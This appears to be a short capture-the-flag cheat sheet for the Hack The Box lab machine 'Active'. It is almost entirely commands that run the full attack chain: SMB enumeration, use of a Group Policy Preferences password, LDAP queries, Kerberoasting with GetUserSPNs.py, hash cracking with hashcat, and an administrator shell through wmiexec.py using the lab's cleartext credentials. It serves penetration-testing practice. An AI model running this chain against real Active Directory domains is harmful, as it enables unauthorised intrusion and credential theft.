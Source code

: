 # ACTIVE
--------------------------------------------------------------------
## Topics will be covered
- SMB enumeration techniques
- Group Policy Preferences enumeration and exploitation
- Identification and exploitation of Kerberoastable accounts

##  Enumeration and Exploiting tools:
```bash
    - Nmap
        ○ nmap -Pn -sV -sC  10.10.10.100
    - SMB
        ○ smbclient -L //10.10.10.100
        ○ smbmap -H 10.10.10.100
        ○ smbclient //10.10.10.100/Replication
    - Foothold (First successful breach/Limited access/Starting point)
        ○ Group Policy Preferences
    - Authenticated Enumeration
        ○ smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100
        ○ smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
    - Privilege Escalation
        ○ ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName
        ○ GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
    - Kerberoasting
        ○ ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
        ○ GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100
        ○ GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
    - Cracking of Kerberos TGS Hash 
        ○ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force --potfile-disable 
    - Shell as Primary Domain Admin 
wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
```